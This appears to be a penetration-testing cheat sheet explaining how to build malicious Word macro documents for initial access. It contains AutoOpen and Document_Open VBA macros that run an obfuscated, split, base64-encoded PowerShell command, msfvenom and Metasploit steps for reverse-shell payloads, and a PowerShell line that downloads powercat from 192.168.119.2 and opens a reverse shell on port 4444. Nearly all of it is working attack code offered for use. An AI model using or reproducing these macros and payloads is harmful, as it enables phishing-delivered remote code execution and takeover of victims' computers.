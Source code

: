 ## Macros
### Manual Method

```
Open Word Document → View → Macros → Macro Name: MyMacro → Macros in: Document(1) → Create
Save it in only .docm or .doc format .docx is not supported.

# Paste this Snippet in Macro.
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String

    CreateObject("Wscript.Shell").Run Str
End Sub
# Save as Word 97-2003 Document Template
```

One more step is having Split Powershell one-liner for the reverse shell, so we have 3 step process:

```
1) msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<port> -f hta-psh -o evil.hta
# read evil.hta and copy the powershell.exe string 

2) Put the Powershell script in a Python code below for splitting
str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC....."

n = 50

for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'

3) Copy the split and paste it in Macro (below Dim str and above CreateObject)
```

### Metasploit

1. Follow the First 4 Steps with the below's reference: [https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/fileformat/office_word_macro.md](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/fileformat/office_word_macro.md)
2. got the doc.m file? convert it to a doc
		Usuall, Word files containing macros use the .docm extension. However, it's possible to rename the file by changing the file extension and still keep their macro executing capabilities.
    
3. Upload the doc file to the attacker’s FTP or somewhere with the payload

```
use exploit/multi/fileformat/office_word_macro
set payload windows/shell_reverse_tcp
set lhost and lport
Open a listener and pop up a reverse shell.
```


### Macro Example

```
If possible do a powershell reverse shell base 64 encoded:

IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell


A for-loop iterates over the PowerShell command and prints each chunk in the correct format for our macro. 

str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..." n = 50 
for i in range(0, len(str), n): 
	print("Str = Str + " + '"' + str[i:i+n] + '"')

Sub AutoOpen() 
	MyMacro 
End Sub 
Sub Document_Open() 
	MyMacro 
End Sub 
Sub MyMacro() 
	Dim Str As String 
	Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU" 
	Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd" 
	Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB" ... 
	Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA" 
	Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA" 
	Str = Str + "A== " 
	CreateObject("Wscript.Shell").Run Str 
End Sub
```